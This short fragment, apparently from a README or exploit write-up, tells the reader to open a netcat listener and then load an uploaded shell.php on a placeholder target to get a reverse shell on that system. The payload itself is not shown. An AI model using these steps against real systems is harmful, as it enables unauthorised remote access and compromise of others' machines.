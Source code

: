 Firstly, you need to open a listener on your local machine.

```
nc -lvnp 1234
```

Then, in a web browser, navigate to "[http://target.com/path/to/ftp/shell.php](http://target.com/path/to/ftp/shell.php)". This should trigger the exploit and establish a connection back to your listener, providing you with a shell on the target system.